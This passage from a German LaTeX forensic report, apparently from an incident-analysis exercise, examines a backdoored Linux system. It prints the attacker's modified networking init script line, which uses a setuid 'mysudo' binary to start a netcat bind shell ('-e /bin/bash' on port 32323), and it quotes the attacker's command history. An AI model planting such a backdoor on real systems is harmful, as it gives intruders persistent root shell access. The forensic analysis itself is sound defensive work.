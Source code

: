 Ein \texttt{ls -lah /home/evil/} zeigt folgende Ausgabe:
\begin{verbatim}
drwxr-xr-x 2 1001 root 4,0K Jan 28  2010 . 
drwxr-xr-x 5 root root 4,0K Jan 28  2010 .. 
-rw------- 1 1001 root  229 Jan 28  2010 .bash_history 
-rw-r--r-- 1 1001 root  220 Mai 12  2008 .bash_logout 
-rw-r--r-- 1 1001 root 3,1K Mai 12  2008 .bashrc 
-rwxr-xr-x 1 1001 root 1,3K Jan 28  2010 bdstart.sh 
-rwxr-xr-x 1 1001 root 1,9K Jan 28  2010 networking 
-rw-r--r-- 1 1001 root  675 Mai 12  2008 .profile
\end{verbatim}

Als erstes wurde die \texttt{networking} Datei näher betrachtet. Hierbei handelt es sich um ein Skript welches wahrscheinlich das Original unter \texttt{/etc/init.d/} ersetzen soll. Ein \texttt{diff /etc/init.d/networking /home/evil/networking} bestätigte diese vermutung. Wenn nun das Skript mit dem Parameter \texttt{start} aufgerufen wird, wird folgende Zeile ausgeführt:
\begin{verbatim}
/usr/local/bin/mysudo "/var/www/upload/netcat -nvv -l -e /bin/bash -p 32323"
\end{verbatim}
Diese Zeile führt das Program \texttt{mysudo} aus und öffnet eine \texttt{netcat} Listening Verbindung auf dem Port 32323 welche mit dem Schalter \texttt{-e} nach der Verbindung eine \texttt{bash} Shell öffnet.

Nach der Feststellung, dass der Angreifer mit \texttt{root}-Rechten agiert hat wurde die \texttt{.bash\_history}\ref{historyroot} des \texttt{root}-Benutzers untersucht.
Aufmerksamkeit erregte die Bearbeitung eines \texttt{mysudo} Programs.
Bei näherer Untersuchung wurde festgestellt, dass einer Binärdatei namens \texttt{mysudo} das \texttt{setuid} Bit gesetzt wurde, der Eigentümer auf \texttt{root:root} geändert und sie vom \texttt{/home/}-Verzeichniss des Benutzers \texttt{itf} nach \texttt{/usr/local/bin} verschoben wurde, was sie ausführbar für jeden Benutzer des Systems macht. Diese Aktionen wurden ausgeführt bevor der Angreifer auf das System kam \hl{referenz timestamps} was vermuten läßt, dass der Administrator diese ausgeführt hat.

\pagebreak Über die \texttt{.bash\_history} kann man die Befehle welche der Benutzer absetzte einsehen:
\begin{verbatim}
ls 
ls -l 
mysudo whoami 
cd /etc/init.d/ 
ls 
touch bdstart.sh 
cd 
cp /etc/init.d/hostname.sh bdstart.sh 
vim bdstart.sh 
cp /etc/init.d/networking . 
vim networking 
mysudo "cp ./networking /etc/init.d/" 
ls -l /etc/init.d/ 
ls -l /etc/
\end{verbatim}
Der Umstand, dass diese ebenfalls von Angreifern modifizierbar ist muss berücksichtigt werden. Manipulationen an dieser Datei sind ist anhand der MAC-Timestamps nicht nachvollziehbar da bei jeder Ausführung eines Befehls der \texttt{modification} und \texttt{change} Timestamp gestzt werden.\\

